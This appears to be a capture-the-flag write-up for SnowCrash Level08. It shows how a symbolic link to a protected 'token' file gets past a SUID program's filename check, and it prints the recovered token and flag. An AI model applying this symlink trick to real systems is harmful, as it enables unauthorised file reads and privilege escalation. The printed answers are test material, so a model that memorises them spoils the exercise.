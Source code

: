 # Level08

In this level we have 2 files. An executable and a file called `token` int which we don't have permissions.
This program reads a file as long as his name is different from `token`. So we have try to create a `symbolic link` of this file to get his content.  
The only person who has access to this file is flag08. It's good because we have (again) the SUID activated.  
So the file will be read by the program even if we haven't permissions. 

```bash
level08@SnowCrash:~$ ln -sf "./token" "/tmp/file"
level08@SnowCrash:~$ ./level08 /tmp/file
level08: Unable to open /tmp/file2: No such file or directory
```
We have a problem but we thinking we are in the good way.  

```bash
level08@SnowCrash:~$ ls -la /tmp/file
lrwxrwxrwx 1 level08 level08 7 May 18 04:09 /tmp/file -> ./token
```

We can see that our symbolic link is not correct. The redirection is to a file with an incorrect path. We can try with an `absolut path`:  

```bash
level08@SnowCrash:~$ ln -sf "${PWD}/token" "/tmp/file"
level08@SnowCrash:~$ ./level08 /tmp/file
quif5eloekouj29ke0vouxean
```

It's working ! We can access to `flag08` to get the flag.  

```bash
level08@SnowCrash:~$ su flag08
Password: 
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag 
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
